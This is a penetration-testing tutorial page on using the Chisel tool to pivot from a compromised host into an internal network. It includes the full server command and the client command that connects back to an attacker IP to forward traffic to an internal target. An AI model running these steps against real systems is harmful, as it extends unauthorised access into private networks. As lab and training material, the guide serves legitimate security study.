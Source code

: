 # Chisel
[Chisel](https://github.com/jpillora/chisel) is a great tool for pivoting and creating tunnels to internal networks and systems from a compromised target. It can be uploaded using [various data infiltration techniques](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)

The practice of tunneling is very abstract and somewhat of an advanced topic in Information Security/IT. If any of this is confusing I would highly recommend watching tutorial videos on the subject which outline the process visually before attempting it.
## Chisel Usage by Example
Youtube user IppSec has a [great tutorial](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md) on how to use Chisel as a tunnel to pvito to internal systems from a compromised system. We will descirbe the entire process with 3 hosts, Attacker, which is our Kali system, the Target which is the compromised host, and the Internal Target, which lies on an internal netework that only the compromised Target system has access to communicate with.

Below are the steps outlined in the tunnel process,
1. Compromise a system as any level shell
   1. This does not have to be a root user
   2. This requires a space to read/write on the host to perform data infiltration.
2. Upload Chisel to the target host.
    1. Use simple data infiltration techniques that I have [outlined here.](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)
    2. Ensure the binary tranferred successfully by using `md5sum` or some other hashing mechanism.
3. Start the Chisel server on the Attacker machine.
4. Start the Chisel client on the compromised Target system and connect back to the Attacker system's server.

### Starting the Chisel Server (Step 3)
To start the Chisel server on the Attacker machine, we do,
```
root@attacker-machine:~# chisel server -p 8081 -reverse -v
```
### Chisel Client on Compromised Target (Step 4)
To connect back to the Attacker machine from the compromised Target system, we run (on the compromised Target system)
```
user@target-machine:~$ ./chisel client \
 (ATTACKER IP ADDRESS):(ATTACKER PORT) R:(ATTACKER NEW PORT):(INTERAL TARGET IP):(INTERNAL TARGET PORT)
```
For instance, since we have the server running on the attacker system (10.10.14.2) from step 3 - at port 8081, we do (from the compromised target system (10.10.10.94)),
```
user@target-machine:~$ ./chisel client 10.10.14.2:8081 R:8082:172.19.0.3:80
```
This will route traffic to the internal Target system's port 80 via the compromised Target's reverse `R` connection to the Attacker host's Chisel server.
